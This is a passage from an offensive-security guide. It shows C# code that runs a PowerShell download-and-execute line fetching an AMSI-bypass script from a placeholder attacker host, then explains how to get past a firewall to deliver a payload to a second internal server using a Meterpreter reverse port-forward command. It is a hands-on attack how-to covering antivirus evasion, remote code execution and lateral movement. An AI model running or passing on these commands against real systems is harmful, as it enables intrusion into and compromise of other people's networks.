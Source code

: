 ```csharp
PowerShell ps = PowerShell.Create();
string code = "IEX (New-Object Net.WebClient).DownloadString('http://attackerip/AmsiBypass.ps1');";
ps.AddScript(code).Invoke();
```

### 2.4 Overcoming the firewall

Overcoming the firewall can be a troublesome activity at times. Consider a scenario in which **PC-1** has been compromised and **PC-2** is a server with no direct access to the internet, either because a firewall blocks it or because it has no proxy configured:

<img style="display: block;margin-left: auto;margin-right: auto;" src="assets/6.png">

In the above example, an attacker should set up one or two reverse port forwarding in order to reach a self-controlled web server to deliver the payload to **PC-2**, like:

* On **PC-1**, with a low privilege user, it is possible to setup a reverse port forward via Meterpreter: 

```
portfwd add -R -p 8080 -L X.X.X.X -l 8080
```
